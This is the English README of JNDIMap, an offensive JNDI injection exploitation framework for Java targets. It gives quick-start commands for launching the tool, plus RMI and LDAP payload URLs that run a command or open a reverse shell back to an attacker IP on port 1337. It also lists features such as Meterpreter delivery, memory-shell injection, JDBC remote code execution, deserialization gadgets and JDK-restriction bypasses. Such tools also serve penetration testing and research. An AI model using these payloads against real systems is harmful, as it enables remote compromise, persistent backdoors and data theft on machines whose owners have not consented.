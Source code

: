 <div align="center">
    <img src="img/logo.png" width="128" />
    <h1 align="center">JNDIMap</h1>
</div>

<p align="center">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/X1r0z/JNDIMap">
<img alt="GitHub forks" src="https://img.shields.io/github/forks/X1r0z/JNDIMap">
<img alt="Static Badge" src="https://img.shields.io/badge/Java-8-blue">
<img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/X1r0z/JNDIMap/total">
<img alt="GitHub Release" src="https://img.shields.io/github/v/release/X1r0z/JNDIMap">
<img alt="GitHub License" src="https://img.shields.io/github/license/X1r0z/JNDIMap">

<p align="center">
JNDIMap is a powerful JNDI injection exploitation framework that supports RMI, LDAP and LDAPS protocols, including various bypass methods for high-version JDK restrictions
</p>
<p align="center"><a href="README.md">简体中文</a> | English</p>
</p>

## 🚀 Quick Start

Download JNDIMap from the [Release](https://github.com/X1r0z/JNDIMap/releases) page, and pass the `-i` parameter to specify the external IP when running

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

Execute command or reverse shell on the target machine

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 Features

- DNSLog
- Command execution
- Spawn reverse shell
- Spawn Meterpreter 
- Load custom Java bytecode
- MemShell injection (based on [MemShellParty](https://github.com/ReaJason/MemShellParty))
- High version JDK Bypass
  - BeanFactory Bypass (Tomcat/Groovy/XStream, etc.)
  - JDBC RCE (MySQL/PostgreSQL/H2/Derby)
  - Tomcat Blind XXE
- LDAP Deserialization (including common gadgets)
- Customize payload based on Nashorn JS engine
- UTF-8 Overlong Encoding Bypass

## 📖 Documentation

> Full documentation: [USAGE.en.md](USAGE.en.md)

- [Usage](USAGE.en.md#usage)
- [URL Format](USAGE.en.md#url-format)
- [Basic Functions](USAGE.en.md#basic-functions)
- [MemShell Injection](USAGE.en.md#memshell-injection)
- [BeanFactory Bypass](USAGE.en.md#beanfactory-bypass)
  - [Tomcat ELProcessor](USAGE.en.md#tomcat-elprocessor)
  - [Groovy ClassLoader/Shell](USAGE.en.md#groovy-classloadershell)
  - [XStream](USAGE.en.md#xstream)
  - [SnakeYaml](USAGE.en.md#snakeyaml)
  - [BeanShell](USAGE.en.md#beanshell)
  - [MVEL](USAGE.en.md#mvel)
  - [MLet](USAGE.en.md#mlet)
  - [NativeLibLoader](USAGE.en.md#nativelibloader)
- [JDBC RCE](USAGE.en.md#jdbc-rce)
  - [MySQL](USAGE.en.md#mysql)
    - [MySQL JDBC Deserialization RCE](USAGE.en.md#mysql-jdbc-deserialization-rce)
    - [MySQL Client Arbitrary File Read](USAGE.en.md#mysql-client-arbitrary-file-read)
  - [PostgreSQL](USAGE.en.md#postgresql)
  - [H2 Database](USAGE.en.md#h2)
  - [Apache Derby](USAGE.en.md#derby)
    - [Derby SQL RCE](USAGE.en.md#derby-sql-rce)
    - [Derby Master-Slave Replication Deserialization RCE](USAGE.en.md#derby-master-slave-replication-deserialization-rce)
- [Tomcat Blind XXE](USAGE.en.md#tomcat-blind-xxe)
- [LDAP Deserialization](USAGE.en.md#ldap-deserialization)
- [Script](USAGE.en.md#script)
- [Advanced Techniques](USAGE.en.md#advanced-techniques)
  - [Use Reference Only](USAGE.en.md#use-reference-only)
  - [Confusing Class Name](USAGE.md#confusing-class-name)
  - [JShell Payload](USAGE.en.md#jshell-payload)
  - [UTF-8 Overlong Encoding](USAGE.en.md#utf-8-overlong-encoding)

## ⚙️ Compile

The version of [Releases](https://github.com/X1r0z/JNDIMap/releases) may be outdated, it is recommended to pull the source code and compile it yourself when using it (based on JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 References & Acknowledgements

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

[https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/](https://mogwailabs.de/en/blog/2024/12/jndi-mind-tricks/)

[https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html](https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html)

[https://github.com/Whoopsunix/utf-8-overlong-encoding](https://github.com/Whoopsunix/utf-8-overlong-encoding)

## 🌟 Star History

<a href="https://www.star-history.com/#X1r0z/JNDIMap&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
 </picture>
</a>